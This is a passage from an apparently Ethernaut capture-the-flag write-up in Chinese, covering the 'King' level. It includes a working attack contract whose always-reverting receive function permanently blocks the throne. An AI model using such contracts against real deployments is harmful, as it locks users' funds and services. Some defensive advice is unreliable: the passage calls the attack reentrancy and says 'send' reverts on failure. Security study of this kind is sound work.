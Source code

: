 学习要点：
- 理解 Solidity 中的存储布局
- 使用低级函数（如 web3.eth.getStorageAt）来访问私有变量
- 不要将敏感数据直接存储在链上，即使使用 private 关键字。
- 如果需要存储敏感数据，建议使用加密方式存储，并仅在必要时解密。

## 09. King ✅ [Easy]

这关主要考察对重入攻击特殊变体的理解了：
- 重入攻击是指攻击者利用合约的漏洞，在合约执行过程中多次调用某个函数，从而获取更多的利益。
- 攻击者可以利用重入攻击来获取合约的控制权

攻击步骤：
1. 如果当前国王是一个智能合约，而该合约的 receive 函数无法接收 ETH（或者故意导致交易失败），新的国王就无法成功调用 receive，从而阻止任何其他玩家成为新的国王。
2. 部署一个攻击合约，并通过攻击合约成为国王。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract KingAttack {
    address public target;

    constructor(address _target) public {
        target = _target;
    }

    function attack() public payable {
        // 调用目标合约，并成为新的国王
        (bool success, ) = target.call{value: msg.value}("");
        require(success, "Attack failed");
    }

    // 故意让接收 ETH 的函数失败
    receive() external payable {
        revert("I refuse to give up the throne!");
    }
}
```

3. 部署攻击合约并提供足够的 ETH（大于当前的 prize）

学习要点：
- 理解receive函数的作用：在目标合约中，receive 函数是接收 ETH 的核心逻辑。如果接收方不能正确处理 ETH 转账，会导致交易失败。
- 防御建议：避免使用低级调用（如 call）进行转账，可以使用 transfer 或 send，它们在转账失败时会自动回滚。
- 在合约设计中，避免依赖外部合约的行为来完成核心逻辑。
- 使用现代的合约框架（如 OpenZeppelin 的 ReentrancyGuard）来实现安全重入控制
ReentrancyGuard的使用示例：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract SecureVault is ReentrancyGuard {
    mapping(address => uint256) private balances;

    // 存款函数
    function deposit() external payable {
        require(msg.value > 0, "Deposit must be greater than 0");
        balances[msg.sender] += msg.value;
    }

    // 提现函数，使用 `nonReentrant` 修饰符防止重入攻击
    function withdraw(uint256 amount) external nonReentrant {
        require(amount > 0, "Withdraw must be greater than 0");
```